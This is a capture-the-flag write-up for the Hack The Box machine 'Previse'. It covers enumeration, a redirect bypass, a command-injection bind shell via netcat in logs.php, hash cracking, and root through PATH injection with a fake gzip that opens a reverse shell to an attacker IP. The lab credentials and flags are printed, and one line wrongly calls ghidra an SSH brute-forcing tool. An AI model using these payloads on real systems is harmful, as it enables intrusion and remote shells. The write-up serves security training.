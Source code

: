 Previse

# **Previse**
##  Nmap scan results
```bash
nmap -A -Pn 10.10.11.104
```
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 03:39 EDT
Nmap scan report for 10.10.11.104
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds
```
We can see from this nmap scan that this machine is running SSH and HTTP.  
SSH can be bruteforced via tools like `ghidra` but we do not know any username or password, so it is better to start off with HTTP service running on port 80.

Since default ip `10.10.11.104` redirects to `http://10.10.11.104/login.php`, we understand that this website is running PHP. Using tools like `wfuzz OR ffuf OR dirb OR dirbuster OR gobuster` can help us find other PHP pages. I will pick ffuf because it is faster.

```bash┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.104/FUZZ -e .php -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15400, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6075, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2970, Words: 749, Lines: 75]
:: Progress: [9228/9228] :: Job [1/1] :: 320 req/sec :: Duration: [0:00:39] :: Errors: 0 ::

```
Here interesting pages are:
(200 OK)
```
config.php, 
nav.php,
```
(302 Redirect)
```
files.php, 
download.php, 
accounts.php
```

config.php is empty page with 0 length, but nav.php shows some valuable information about navigation on the site:
![eb28c0d0a939136a416287a2581901e9.png](../_resources/0ad7041589084a77b78c5c49c57df554.png)
But every link on this navigation page redirects to the default login page `http://10.10.11.104/login.php`

Clicking files.php on this page and intercepting the request via burp suite shows that server actually sends us `files.php` but it then immediately redirects to `login.php` so we do not see files.php in our browser.

Below is a part of `files.php` source code from burp suite:
![46278d7b74d70cfc6dde148438019737.png](../_resources/a256828fd3c94fdb8175d40f2264df6f.png)

We can also access status.php to see there is MySQL service running in the background and there are 10 admins and 2 uploaded files on this website.
![2e3f6bd63a9aa6d87add75ea4dfff8e5.png](../_resources/658bee3583f847589f631c2bf1c2c905.png)

Accounts.php is interesting. To bypass 302 redirection on this site we can simply change the HTTP header from `302 Found` to `200 OK`. (Notice the change in the first line)
![235246d5eea4470bb2ff122075a12af1.png](../_resources/5308ec2b5ed74394a25312ad15faa879.png)
![62d51f804153c9dbd1cdba9634208bcd.png](../_resources/c0b0ab6a3cb24d00aecc166cff5a8424.png)
From this accounts.php page I created an account with `id:ubuntu and password:linux`

Logging in with these credentials gives us access to management panel.
![7d362d2d4853370c1f2c099aad1f8577.png](../_resources/ea441bcd7afd489ca3f9b907e1a73a7b.png)

From this page we can download both files. Unzipping sitebackup.zip we can access config.php where we can find a username and password stored.
![d69233d3c34d9d46fa75246ca608af82.png](../_resources/59370de0bcc14d4191c9e4063206f887.png)
![eb07f555ecc2f6e7e49ae13fe376c316.png](../_resources/9791b57d452645a5a455e115baf791bb.png)

I tried to login SSH with these `root:mySQL_p@ssw0rd!:)` credentials but without success.

Another file on that zip named `logs.php` shows a code that may be vulnerable to ` code injecton` because there seems to be no user input sanitization.
![bfd49c8e0d79f3ea100d8cd6683517b1.png](../_resources/dc39b2a5a9e24664b638a942ef28af3b.png)

We can try to inject code in `file_logs.php` to gain a shell. To do this we close echo command with `&` and then write our own shell command (nc)
![b62f71ee3f1ce236fa822940fe9e0224.png](../_resources/69c57e407eb74b32abf5c27cd2294bf2.png)

Final payload:
`echo $output & nc -lvnp 1234 -e /bin/bash`

URL encoded payload to be sent via BURP:
`%26nc%20-lvnp%201234%20-e%20%2Fbin%2Fbash`

Below is an image of delim=comma+our URL-encoded payload. Forwarding this request executes `nc -lvnp 1234 -e /bin/bash` command on this web server, so it starts listening to ANY on port 1234, a.k.a. bind shell.
![77c951f35e5044e0d8e252eb2abd5905.png](../_resources/bd43c5308eef45f591994c7029a199ab.png)

We can now connect to its 1234th port with this command in our kali box:
`nc 10.10.11.104 1234`
![7b29117d73f514c4a487f120338d8e90.png](../_resources/34834d2cde084928ab6591722a8d0392.png)

To make the shell more interactive, use the command:
`python -c "import pty;pty.spawn('/bin/bash')"
`
![5e708dfc358535b87213a414601eebae.png](../_resources/11354d2f0ca84e75b740eeb83a43432b.png)

Then using previously discovered credentials `root:mySQL_p@ssw0rd!:)`  we can dump accounts table:
![76a74b29ea9a352f97b02c9bd40461c6.png](../_resources/837d4d567ec64a9e8ede492f24e2252d.png)

Note the hash of the user m4lwhere: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

Cracking it with hashcat `hashcat -m 500 hashson.txt /usr/share/wordlists/rockyou.txt ` gives cleartext password:`ilovecody112235!`

Using `m4lwhere:ilovecody112235!` to ssh into the machine and reading user.txt `e8a8e264c58be755633bacd03c9624d5`
![1303b4a1d5771e184fd4b531b627c87c.png](../_resources/fb1fb4a0ab0c47aa90861b4c91a42898.png)

Privilege escalation:
![dfd6b0df2f6fd31728a7266d9cae4066.png](../_resources/fc64a43b63eb4a50a395babe38277a22.png)

from `sudo -l` command we see we can run "gzip" as root. Linux by default calls gzip from `/bin/gzip` (we can see that by running `which gzip`)

Using path injection, we can create our own gzip executable and make this script call our gzip instead.
![7774b0de5fecaf6108cb4b1bac2d0a63.png](../_resources/1f163b6179b6471494ffefce601dea4a.png)

Commands:
```bash
cd /tmp
echo "nc 10.10.15.9 1547 -e /bin/bash" > gzip
chmod 777 gzip
export PATH=/tmp:$PATH
```

Now when this script calls gzip, it will execute `/tmp/gzip
` (not default /bin/gzip)

Run this script as sudo:
![98ee0d97a709e7a43d349ed0171b667b.png](../_resources/fd72bd51403541e5af7ff9a793daa112.png)

And catch the incoming connection request with netcat: `nc -lvnp 1547`
![ff92da0731a4275a62afbb2be553c39b.png](../_resources/c87bc83202a94e39b4b414b747038131.png)
Root flag: `2ac1090ac49d3e72b94dcc2cdcae0ea2`

Batuhan Kahraman, 05.09.2021

![9c9897434dde73d96d1b75411d4dc50e.png](../_resources/6e4187b204be4189bd14c1e9fbe38abe.png)
